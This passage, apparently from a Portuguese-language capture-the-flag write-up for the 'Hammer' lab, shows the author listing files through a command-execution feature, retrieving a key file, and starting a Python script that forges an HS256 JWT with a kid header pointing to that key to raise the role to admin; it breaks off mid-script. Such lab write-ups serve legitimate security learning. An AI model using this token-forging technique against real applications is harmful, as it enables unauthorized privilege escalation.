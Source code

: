 Verificamos o comportamento da aplicação, com o comando que enviamos, com o comando `ls`conseguimos listar os arquivos no diretório atual, além dos arquivos e diretórios que já sabíamos, também identificamos outro arquivo `188ade1.key`.

![file_discover](/assets/img/posts/2025/02/hammer/files_discover.png)

Baixamos o arquivo descoberto para a nossa máquina local.  
Analisando o arquivo percebemos que pode se tratar de uma chave, para gerar JWT válido na aplicação.

```shell
┌──(alex㉿estudos)-[~/Downloads]
└─$ file 188ade1.key
188ade1.key: ASCII text, with no line terminators
                                
┌──(alex㉿estudos)-[~/Downloads]
└─$ cat 188ade1.key
[REDACTED]
```

Apenas o comando `ls`sem nenhuma opção, está sendo permitido executar.  
Tentamos executar outros comandos do Linux porém recebemos a mensagem `Command not allowed`.   
Nosso usuário possui no JWT `role:user`, aparentemente, por esse motivo não conseguimos executar outros comandos, não temos a permissão necessária.

### Criando nosso JWT

Como vimos no decode do JWT temos o campo `role`, podemos utiliza-lo, alterando para `admin`, utilizando a chave que encontramos em `/var/www/html/`.Para isso precisamos criar nosso JWT, vamos utilizar o python para essa tarefa.  
Programa desenvolvido para criar nosso token.

```python
import jwt
import datetime

# Definindo o header
header = {
    "typ": "JWT",
    "alg": "HS256",
    "kid": "/var/www/html/188ade1.key"
}

# Definindo o payload
payload = {
    "iss": "http://hammer.thm",
    "aud": "http://hammer.thm",
    "iat": 1739395993,
    "exp": 4070726400,
```